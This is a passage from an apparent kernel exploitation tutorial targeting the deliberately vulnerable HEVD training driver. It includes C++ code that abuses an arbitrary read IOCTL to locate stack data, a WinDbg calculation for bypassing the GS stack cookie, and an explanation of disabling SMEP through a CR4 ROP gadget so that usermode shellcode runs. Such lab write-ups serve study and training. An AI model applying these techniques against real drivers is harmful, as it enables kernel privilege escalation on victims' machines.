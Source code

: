 Step 3 is pretty simple and looks like this:
```cpp
printf("[+] Searching down from stack limit: 0x%llx\n", stackLimit);
intptr_t stackSearch = (intptr_t)stackLimit - 0xff0;

BOOL foundControlCode = FALSE;
while (stackSearch < (intptr_t)stackLimit - 0x10) {
    arbReadBuf.readAddress = readAddress;
    arbReadBuf.outBuf = &readBuffer;

    bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &arbReadBuf, sizeof(arbReadBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);
    if (readBuffer == HEVD_IOCTL_ARBITRARY_WRITE) {
        printf("[*] Found CTL_CODE in the stack at: 0x%llx\n", stackSearch);
        foundControlCode = TRUE;
        break;
    }
    stackSearch += sizeof(intptr_t);
}
if (!foundControlCode) {
    ...
    goto _cleanup;
}
```

Step 4 is just putting all the pieces together. Let's take the closest result to RSP from our search and calculate the distance:
```
1: kd> .formats ffff928d`8b2d17e8 - ffff928d8b2d1540
Evaluate expression:
  Hex:     00000000`000002a8
  Decimal: 680
```
The results show that the RSP that gets xored with the cookie is predicted to be ```CTL_CODE_ADDRESS - 0x2a8```.  
Now we have all that we need to bypass the GS stack protection and move on to getting our shellcode executed.  
<br />
        

## Bypassing SMEP
The best result for me was getting arbitrary shellcode executed. If we reach that step, we can do everything we want in that shellcode from the kernel's context.  
As we have no way of allocating our shellcode in the kernel's memory with Execute permissions we have to either construct a rop that does just that or allocate our shellcode in usermode memory and construct a rop chain that executes it.  

We'll choose the latter as it's easier. But the major obstacle we need to get through is SMEP - a protection that bugchecks (BSOD) if the kernel tries to execute code that's found in usermode address.  
SMEP status is determined by the 20th bit in the CR4 register. It's a privileged register so only the kernel can modify its contents. The classic and easiest way of bypassing it's by disabling it in the CR4 register using a rop gadget like ```mov cr4, rcx```.
  